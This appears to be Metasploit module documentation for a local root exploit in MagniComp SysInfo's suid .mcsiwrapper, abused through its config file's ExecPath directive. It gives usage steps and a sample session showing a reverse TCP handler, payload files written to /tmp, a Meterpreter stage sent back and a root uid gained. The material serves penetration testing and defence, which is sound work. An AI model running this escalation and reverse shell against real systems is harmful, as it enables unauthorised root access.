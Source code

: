 ## Description

  This module attempts to gain root privileges on systems running MagniComp SysInfo versions prior to 10-H64.


## Vulnerable Application

  [MagniComp SysInfo](https://www.magnicomp.com/sysinfo/) is a single system agent and viewer providing extensive IT asset inventory and configuration information for most major Linux, UNIX, Apple Macintosh, and Microsoft Windows platforms as well as leading NAS and SAN Storage Systems and logical volume software solutions.

  The `.mcsiwrapper` suid executable allows loading a config file using the `--configfile` argument. The `ExecPath` config directive is used to set the executable load path. This module abuses this functionality to set the load path resulting in execution of arbitrary code as root.

  This module has been tested successfully on SysInfo:

  * 10-GA on Solaris 10u11 x86
  * 10-H10 on Debian 8 x86_64
  * 10-H32 on Fedora 27 x86_64
  * 10-H63 on Fedora 20 x86_64


  Installers:

  * https://www.magnicomp.com/cgi-bin/mcdownload.cgi
  * https://www.magnicomp.com/cgi-bin/mcdownload.cgi/Action=ListDDF


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. Do: `use exploit/multi/local/magnicomp_sysinfo_mcsiwrapper_priv_esc`
  4. Do: `set SESSION [SESSION]`
  5. Do: `check`
  6. Do: `run`
  7. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **SYSINFO_DIR**

  Path to SysInfo directory (default: `/opt/sysinfo`)

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)


## Scenarios

  ```
  msf > use exploit/multi/local/magnicomp_sysinfo_mcsiwrapper_priv_esc 
  msf exploit(multi/local/magnicomp_sysinfo_mcsiwrapper_priv_esc) > set session 1
  session => 1
  msf exploit(multi/local/magnicomp_sysinfo_mcsiwrapper_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.244:4444 
  [*] Using target: Linux
  [*] Writing '/tmp/.0rk4PC/vFdxxuBVkh' (21 bytes) ...
  [*] Writing '/tmp/.0rk4PC/eoGVzYwGa' (207 bytes) ...
  [*] Executing payload...
  [*] Sending stage (857352 bytes) to 172.16.191.137
  [*] Meterpreter session 2 opened (172.16.191.244:4444 -> 172.16.191.137:42229) at 2018-02-05 07:38:35 -0500
  [+] Deleted /tmp/.0rk4PC/vFdxxuBVkh
  [+] Deleted /tmp/.0rk4PC/eoGVzYwGa
  [+] Deleted /tmp/.0rk4PC

  meterpreter > getuid
  Server username: uid=0, gid=1000, euid=1000, egid=1000
  meterpreter > sysinfo
  Computer     : localhost.localdomain
  OS           : Fedora 20 (Linux 3.19.8-100.fc20.x86_64)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter > 
  ```

